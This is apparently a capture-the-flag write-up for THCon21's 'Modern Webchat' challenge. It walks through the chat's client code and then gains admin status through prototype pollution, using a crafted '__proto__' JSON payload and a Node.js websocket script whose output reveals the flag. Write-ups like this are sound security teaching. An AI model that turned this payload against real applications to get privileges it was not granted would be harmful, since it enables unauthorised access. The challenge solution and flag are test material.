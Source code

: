 # Modern Webchat
**Web** (250 points/ 5 solves)
## Description
IRC is a relic of the past.
## Solution
We visit the site and arrive on a web chat where we can choose a nickname and a color and then be able send messages.

From time to time a receive a message from the admin wich say :

> **[admin]** **LePireBot**: _Message restricted to administrators._

Obviousely we must fake the fact that we are admin in order to see the message.

Starting investigating on the app, we quickly find out a main.js file.
 ```javascript
(() => {
  const escape = (string) =>
    string.replace(/[&<>"']/g, (chr) => {
      return {
        "&": "&amp;",
        "<": "&lt;",
        ">": "&gt;",
        '"': "&quot;",
        "'": "&#39;",
      }[chr];
    });

  const ws = new WebSocket("ws://" + location.host);

  const $loginForm = document.querySelector("#login-form");
  const $messageForm = document.querySelector("#message-form");
  const $messages = document.querySelector("#messages");

  const createMessage = (data) => {
    const $el = document.createElement("div");
    $el.className = "message";
    $el.innerHTML = `${
      data.user.admin ? "<strong>[admin]</strong> " : ""
    }<strong style="color:${data.user.color}">${escape(
      escape(data.user.nickname)
    )}</strong>: ${
      data.messageRestricted
        ? "<i>Message restricted to administrators.</i>"
        : escape(data.message)
    }`;
    return $el;
  };

  const displayConnectionError = () => {
    $messages.appendChild(
      createMessage({
        user: { nickname: "Error", color: "#ff0000" },
        message: "Connection closed unexpectedly. Please refresh the page.",
      })
    );
  };

  ws.onmessage = (e) => {
    const shouldScroll =
      $messages.scrollTop + $messages.clientHeight === $messages.scrollHeight;
    const data = JSON.parse(e.data);
    $messages.appendChild(createMessage(data));
    if (shouldScroll) {
      $messages.scrollTop = $messages.scrollHeight;
    }
    if ("successfulLogin" in data) {
      $loginForm.hidden = true;
      $messageForm.hidden = false;
    }
  };

  ws.onerror = ws.onclose = (e) => displayConnectionError();

  $loginForm.addEventListener("submit", (e) => {
    e.preventDefault();
    if (ws.readyState !== ws.OPEN) {
      return;
    }
    ws.send(
      JSON.stringify({
        nickname: $loginForm.elements.nickname.value,
        color: $loginForm.elements.color.value,
      })
    );
  });

  $messageForm.addEventListener("submit", (e) => {
    e.preventDefault();
    if (ws.readyState !== ws.OPEN) {
      return;
    }
    ws.send(
      JSON.stringify({
        message: $messageForm.elements.message.value,
      })
    );
    $messageForm.elements.message.value = "";
  });
})();
```


So basicaly what we learned from this file is that the chat is based on webscokets and communicating using json.

At this point we can assume that the goal of the challenge is not to perform an xss because this function will well prevent it.
```javascript
const escape = (string) =>
   string.replace(/[&<>"']/g, (chr) => {
     return {
       "&": "&amp;",
       "<": "&lt;",
       ">": "&gt;",
       '"': "&quot;",
       "'": "&#39;",
     }[chr];
   });
```
But we also find out that there is an admin property in the user class in createMessage function.

While debugging the netsockets we can also see this admin property in the bot received message.

```json
{
  "user": { "nickname": "LePireBot", "color": "#ECA400", "admin": true },
  "messageRestricted": true
}
```
So the plan is to register as admin by setting admin to true, for that we gonna try to just append this at the end of the json data.
A classic registration look like : 
```json
{"nickname": "xl00t", "color": "#1337FF"}
```
So our first payload is :
```json
{"nickname": "xloot", "color": "#1337FF", "admin": true}
```
But as suspected the payload will not be so simple.

After some research into the potential vulnerability of JSON.parse(), we find somes articles about **Prototype Pollution** in JS.

In simple termes this vulnerabity will allow us to add the admin property by using the prototype property of the user object.

Accessing a prototype in javascript can be done with `prototype` or `__proto__` property.

With that we can access object properties in different ways :

 - user.nickname
 - user.prototype.nickname
 - user.\_\_proto\_\_.nickname

Lets wrap up everything we learn so far and craft our final payload :
```json
{
    "nickname": "xloot",
    "color": "#1337ff",
    "__proto__": {
        "admin": true
    }
}
```

We reuse and modify the main.js file we saw earlier in order to send our payload and wait for the bot message.

```javascript
const WebSocket = require('ws');

const ws = new WebSocket("ws://remote1.thcon.party:10001");
var input = process.openStdin();

ws.onmessage = (e) => {
  const data = JSON.parse(e.data);
  console.log(data);
};

input.addListener("data", function(mes) {
    if (ws.readyState !== ws.OPEN)
        return;

    var payload = '{"nickname": "xloot","color": "#1337ff","__proto__": {"admin": true}}';
    ws.send(payload);

    var messageJson = {message: mes.toString()};
    ws.send(JSON.stringify(messageJson));
});
```

Now we lauch this script and enter a message in order to send our payload.

```
xl00t@DESKTOP:~/thcon/modern-chat$ node main.js
{
  user: { nickname: 'Info', color: '#0088ff' },
  message: 'Connected to the chat room.'
}
Gimme Flag
{
  user: { nickname: 'Info', color: '#0088ff' },
  message: 'xloot joined the chat room! 2 people connected.',
  successfulLogin: true
}
{
  user: { nickname: 'xloot', color: '#1337ff' },
  message: 'Gimme Flag\n'
}
{
  user: { nickname: 'LePireBot', color: '#ECA400', admin: true },
  message: 'Well done! Here is the flag: THCon21{__1000_points_pour_Gryffondor__}'
}
```
Well , we got the flag !

References:
 - https://theflyingmantis.medium.com/javascript-a-prototype-based-language-7e814cc7ae0b
 - https://developer.mozilla.org/en-US/docs/Learn/JavaScript/Objects/Inheritance
 - https://medium.com/intrinsic/javascript-prototype-poisoning-vulnerabilities-in-the-wild-7bc15347c96
 - https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution

